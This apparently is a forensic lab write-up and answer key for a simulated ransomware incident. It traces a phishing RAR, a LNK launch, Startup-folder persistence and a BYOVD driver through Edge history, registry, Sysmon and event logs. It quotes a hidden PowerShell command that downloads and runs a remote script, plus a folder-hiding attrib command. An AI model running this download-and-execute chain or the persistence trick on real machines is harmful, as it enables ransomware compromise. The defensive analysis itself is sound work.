








Scenario:
On April 30, 2025, a Finance department user received a phishing email with a RAR file. Trusting the sender, the user extracted and opened it. GOAT Capital’s SOC detected suspicious PowerShell activity from the user’s workstation. Soon after, mass file deletions and changes occurred, followed by ransom notes demanding Monero. Your task: investigate the true attack vector, identify attacker techniques, and assess the scope of the compromise.
Q1:
To trace the origin of the attack, it's essential to identify where the malicious file was obtained. What is the complete URL from which the user downloaded the malicious RAR file?
To identify the complete URL used to download the malicious RAR file, I navigated to the administrator's Microsoft Edge History database and opened it using DB Browser for SQLite.
Within the database, I first reviewed the Downloads table, where I identified the downloaded RAR file:

This confirmed that the malicious file was named:
pay rate.pdf.rar
With the filename identified, I then pivoted to the urls table to determine the source from which the file was downloaded. The associated entry revealed the complete download URL:

The malicious RAR file was downloaded from:
https://limewire.com/d/lihUt#NrUgowrb29
Q2:
Establishing an exact timeline helps reconstruct the attack sequence accurately. What is the exact timestamp when the user downloaded the RAR file to the system? (in 24H format)
For this one, We see the time-stamp in image 1 on the first question. To get the UTC time-stamp, we simply got to convert:
For this question, the download timestamp can be seen in Image 1 from Q1, within the Microsoft Edge History database.
The recorded timestamp was:
13390518525729026
Because Microsoft Edge stores these timestamps using the Chromium/WebKit timestamp format, I converted the value to UTC.
After conversion, the RAR file was downloaded at:
2025-04-30 20:28
Q3:
Understanding how the payload was executed reveals the user action that led to compromise. Which file extracted from the archive was launched by the user, triggering the attack?
For this question, I initially searched for suspicious file creation activity around the time of the download using the MFT, USN Journal, and Windows Event Logs. However, I was unable to identify anything conclusive through those artifacts.
I then pivoted to determine which files the user may have manually launched. To do this, I loaded the user's NTUSER.dat hive into Registry Explorer and examined the UserAssist key.
The UserAssist key is useful because it records GUI-based program execution and can help identify files or applications that a user manually opened.

At the bottom of the results, we can see that the user launched:
pay rate.pdf.lnk
This indicates that pay rate.pdf.lnk, extracted from the archive, was the file executed by the user and ultimately triggered the attack.
Q4:
Identifying the initial script clarifies the method used to deliver and execute malicious payloads. What is the name of the PowerShell script that executed the payloads?
For this question, I focused on identifying any PowerShell scripts that may have been introduced and executed on the system. Fortunately, while analyzing process creation events for Q3, I came across the command used to retrieve the malicious PowerShell payload.
The following command was observed:
"C:\Windows\System32\cmd.exe" /c start "" /min powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "iwr -uri 'http://192[.]168[.]1.54:4561/troubleshooting.ps1' -UseBasicParsing | IEX"
This command reveals several important details. PowerShell was launched with a hidden window, profiles disabled, and the execution policy bypassed. The iwr (Invoke-WebRequest) command was then used to retrieve:
troubleshooting.ps1
The downloaded script was piped directly into IEX (Invoke-Expression), meaning it was executed directly in memory rather than first being saved to disk.
This activity occurred at:
2025-04-30 20:32:06
This was approximately four minutes after the initial malicious RAR file was downloaded, helping establish the progression from user download to payload execution.
Therefore, the PowerShell script responsible for executing the payloads was:
troubleshooting.ps1
Q5:
Pinpointing when ransomware activity began is crucial for defining the start of encryption. When did the ransomware first execute on the victim machine?
For this question, I built directly from the previous finding. We already established that the malicious PowerShell payload was retrieved and executed at:
2025-04-30 20:32:06
From there, I pivoted to the USN Journal to look for file creation activity occurring around that same timeframe. Almost immediately, I identified the creation of the following ransom note on the Administrator's Desktop:
RANSOMNOTE.txt

The creation of RANSOMNOTE.txt within the same minute as the PowerShell execution strongly indicates that the ransomware payload had begun executing at approximately:
2025-04-30 20:32
I also observed files with the .FLOCK extension being created during the same minute, further supporting that file encryption activity had already begun.
Therefore, the ransomware first executed on the victim system at approximately:
2025-04-30 20:32
Q6:
Hash values allow correlation of the malware across systems and threat intelligence sources. What is the SHA256 hash of the ransomware executable used in this attack?
For this question, I analyzed Sysmon process creation events to identify the executable responsible for the ransomware activity.

Starting from the beginning of the execution chain, we can first see the PowerShell command responsible for downloading and executing troubleshooting.ps1.
Shortly afterward, PowerShell launches the following executable:
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\hidden\Adobe Acrobat.exe
Despite its name, this executable is highly suspicious. Legitimate Adobe Acrobat binaries would not normally execute from a hidden directory beneath the Windows Startup folder.
Additional activity further supports this conclusion. The following command was used against the directory:
attrib.exe +H +S "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\hidden"
The flags apply the following attributes:
+H- Hidden+S- System
This suggests the attacker intentionally attempted to conceal the directory containing the malicious executable while also placing it within a location associated with persistence.
The suspicious Adobe Acrobat.exe process then spawned cmd.exe and performed several system-discovery commands, including:
net config Workstation
systeminfo
hostname
Most importantly, the same executable was responsible for launching the ransom note:
C:\Windows\System32\NOTEPAD.EXE "C:\Users\Administrator\Desktop\RANSOMNOTE.txt"
The parent process of NOTEPAD.EXE was:
Adobe Acrobat.exe
This provides strong evidence that the fraudulent Adobe Acrobat.exe executable was the binary payload responsible for the malicious activity.
From the corresponding Sysmon process creation event, I then extracted the SHA256 value recorded in the Hashes field.
The ransomware executable was:
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\hidden\Adobe Acrobat.exe
Its SHA256 hash was: 113A06C8BA6069D345F3C3DB89051553D8AFF7D27408945B50AA94256277DCB3
Q7:
Knowing how persistence was maintained helps ensure thorough malware removal. What MITRE ATT&CK sub-technique ID did the attacker use to gain persistence post-reboot?
For this question, we can build directly from the activity identified in Q6.
The malicious executable was placed under the Windows Startup folder:
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\hidden\Adobe Acrobat.exe
Files placed within the Windows Startup folder can automatically execute when a user logs on, allowing the malware to regain execution after a system reboot.
This persistence mechanism maps to the MITRE ATT&CK sub-technique:
T1547.001
T1547.001 - Registry Run Keys / Startup Folder
Q8:
Exploited drivers often reveal the attacker’s method for gaining elevated privileges. What is the name of the vulnerable driver the attacker used for privilege escalation?
For this question, I continued analyzing process creation events and identified several commands executed between:
2025-04-30 20:32
2025-04-30 20:34

The commands show that the attacker was actively performing system enumeration. One command that stood out was:
cmd.exe /c DRIVERQUERY
Because DRIVERQUERY enumerates installed drivers, I pivoted to determine whether the attacker subsequently introduced or exploited a vulnerable driver.
I first reviewed Sysmon Event ID 6, which records driver load activity, but did not identify anything conclusive. I then pivoted to Windows System Event ID 7045 - Service Installed, since kernel drivers can also be registered with the Windows Service Control Manager as services.
This revealed the following event at:
2025-04-30 20:32:36
{"EventData":{"Data":[{"@Name":"ServiceName","#text":"int"},{"@Name":"ImagePath","#text":"C:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\iqvw64e.sys"},{"@Name":"ServiceType","#text":"kernel mode driver"},{"@Name":"StartType","#text":"demand start"},{"@Name":"AccountName"}]}}
The important fields were:
ServiceName: int
ImagePath: C:\Users\ADMINI~1\AppData\Local\Temp\iqvw64e.sys
ServiceType: kernel mode driver
StartType: demand start
Event ID 7045 shows that Windows registered a new service named int whose backing binary was:
C:\Users\ADMINI~1\AppData\Local\Temp\iqvw64e.sys
The ServiceType explicitly identifies it as a kernel-mode driver, while StartType: demand start indicates that the driver would only be loaded when explicitly requested.
In other words, the attacker registered iqvw64e.sys with the Service Control Manager so it could be loaded into the Windows kernel when needed.
Q9:
Mapping kernel-level techniques helps identify sophisticated system access methods. What technique did the attacker use to gain kernel-level access?
Bring Your Own Vulnerable Driver (BYOVD)
The attacker installed the vulnerable iqvw64e.sys kernel driver and abused it to obtain kernel-level access.
Q10:
Tracking files written by malware provides insight into its actions and scope. What is the name of the log file created by the ransomware to record its operations?
To identify the log file created by the ransomware, I analyzed Sysmon Event ID 11, which records file creation activity.
I then narrowed the results to only files created by the malicious Adobe Acrobat.exe process identified in the previous questions.

Within the resulting file creation events, I identified the following file being created at:
2025-04-30 20:32:34
DbgLog.sys
Because this file was created directly by the ransomware process, it corresponds to the log file used by the malware to record its operations.
Q11:
Command-and-control contact details help trace external infrastructure used in the attack. What IP address and port number did the downloader connect to in order to retrieve the payload?
For this question, I referenced the PowerShell command identified earlier in the investigation, which was used to retrieve the malicious troubleshooting.ps1 payload:
iwr -uri 'http://192[.]168[.]1[.]54:4561/troubleshooting.ps1' -UseBasicParsing | IEX
This command shows that the downloader connected directly to the following IP address and port to retrieve the payload:
192[.]168[.]1[.]54:4561
Q12:
Understanding encryption behavior is vital for response and recovery planning. What file extension did the ransomware append to encrypted files?
To identify the extension used by the ransomware, I analyzed file activity within the MFT around the time the ransomware payload executed.
During this review, I observed multiple files being created or renamed with the following extension appended:

flocked
The appearance of this extension across affected files during the ransomware execution window indicates that it was the extension applied to encrypted files.
Q13:
Ransom communication links are key for attribution and negotiation strategy. What is the .onion link provided by the attacker for ransom payment or communication?
For this final question, I submitted the ransomware sample to tria.ge for additional behavioral analysis.
Within the sandbox results, I identified the .onion address embedded or referenced by the ransomware for victim communication and ransom payment.
The onion address provided by the attacker was:
xql56zevsy7njcngsapchc2erzjfecwotdkobn3m4uxu2gtqh26newid.onion
Indicators of Compromise (IOC)
| IOC Type | Indicator | Description |
|---|---|---|
| Download URL | https://limewire.com/d/lihUt#NrUgowrb29 |
Complete URL used to download the malicious RAR file |
| Malicious Archive | pay rate.pdf.rar |
RAR file downloaded by the user |
| Initial Execution File | pay rate.pdf.lnk |
File extracted from the archive and launched by the user |
| PowerShell Script | troubleshooting.ps1 |
Malicious PowerShell script retrieved and executed in memory |
| Payload Server | 192[.]168[.]1[.]54:4561 |
IP address and port used to retrieve troubleshooting.ps1 |
| Ransomware Executable | C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\hidden\Adobe Acrobat.exe |
Malicious executable identified as the ransomware payload |
| SHA256 | 113A06C8BA6069D345F3C3DB89051553D8AFF7D27408945B50AA94256277DCB3 |
SHA256 hash of the ransomware executable |
| Vulnerable Driver | iqvw64e.sys |
Kernel-mode driver registered by the attacker |
| Driver Path | C:\Users\ADMINI~1\AppData\Local\Temp\iqvw64e.sys |
Path of the vulnerable kernel driver |
| Service Name | int |
Service registered for the kernel-mode driver |
| Ransomware Log File | DbgLog.sys |
Log file created by the ransomware |
| Ransom Note | RANSOMNOTE.txt |
Ransom note created on the Administrator desktop |
| Encrypted File Extension | flocked |
Extension appended to encrypted files |
| Onion Address | xql56zevsy7njcngsapchc2erzjfecwotdkobn3m4uxu2gtqh26newid.onion |
Ransom communication/payment address |
Attack Timeline
| Timestamp (UTC) | Activity | Details |
|---|---|---|
2025-04-30 20:28 |
Malicious archive downloaded | Microsoft Edge History records the download of pay rate.pdf.rar from the LimeWire URL. |
2025-04-30 20:32:06 |
PowerShell payload retrieved and executed | cmd.exe launches hidden PowerShell, which retrieves troubleshooting.ps1 from 192[.]168[.]1[.]54:4561 and pipes it to IEX. |
2025-04-30 20:32 |
Ransomware activity begins | RANSOMNOTE.txt and files using the ransomware extension appear during the same minute as the malicious PowerShell execution. |
2025-04-30 20:32:34 |
Ransomware log created | Adobe Acrobat.exe creates DbgLog.sys. |
2025-04-30 20:32:36 |
Vulnerable kernel driver registered | Windows Event ID 7045 records service int backed by iqvw64e.sys as a kernel-mode driver. |
2025-04-30 20:32–20:34 |
System and driver discovery | The attacker performs system enumeration, including DRIVERQUERY, along with commands such as net config Workstation, systeminfo, and hostname. |